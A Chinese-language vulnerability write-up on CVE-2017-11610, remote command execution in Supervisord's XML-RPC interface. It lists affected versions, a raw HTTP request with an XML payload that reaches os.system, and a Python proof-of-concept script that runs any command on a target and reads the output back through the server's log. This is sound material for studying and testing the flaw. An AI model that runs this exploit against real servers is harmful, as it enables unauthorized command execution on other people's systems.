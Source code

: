 （CVE-2017-11610）Supervisord 远程命令执行漏洞
==============================================

一、漏洞简介
------------

Supervisor是一套进程控制系统，用于监视和控制类Unix系统上的进程。XML-RPC
server是其中的一个XML-RPC服务器。
Supervisor中的XML-RPC服务器存在安全漏洞。远程攻击者可借助特制的XML-RPC请求利用该漏洞执行任意命令。

二、漏洞影响
------------

supervisor
3.0.1之前的版本，3.1.4之前的3.1.x版本，3.2.4之前的3.2.x版本，3.3.3之前的3.3.x版本。

三、复现过程
------------

直接执行任意命令：

    POST /RPC2 HTTP/1.1
    Host: www.0-sec.org
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 213

    <?xml version="1.0"?>
    <methodCall>
    <methodName>supervisor.supervisord.options.warnings.linecache.os.system</methodName>
    <params>
    <param>
    <string>touch /tmp/success</string>
    </param>
    </params>
    </methodCall>

![1.png](resource/(CVE-2017-11610)Supervisord远程命令执行漏洞/media/rId24.png)

### 关于直接回显的POC

\@Ricter
在微博上提出的一个思路，甚是有效，就是将命令执行的结果写入log文件中，再调用Supervisord自带的readLog方法读取log文件，将结果读出来。

写了个简单的POC：直接贴出来吧：

    #!/usr/bin/env python3
    import xmlrpc.client
    import sys


    target = sys.argv[1]
    command = sys.argv[2]
    with xmlrpc.client.ServerProxy(target) as proxy:
        old = getattr(proxy, 'supervisor.readLog')(0,0)

        logfile = getattr(proxy, 'supervisor.supervisord.options.logfile.strip')()
        getattr(proxy, 'supervisor.supervisord.options.warnings.linecache.os.system')('{} | tee -a {}'.format(command, logfile))
        result = getattr(proxy, 'supervisor.readLog')(0,0)

        print(result[len(old):])

使用Python3执行并获取结果：`./poc.py "http://www.0-sec.org:9001/RPC2" "command"`：![02.png](resource/(CVE-2017-11610)Supervisord远程命令执行漏洞/media/rId26.png)

参考链接
--------

> https://vulhub.org/\#/environments/supervisor/CVE-2017-11610/
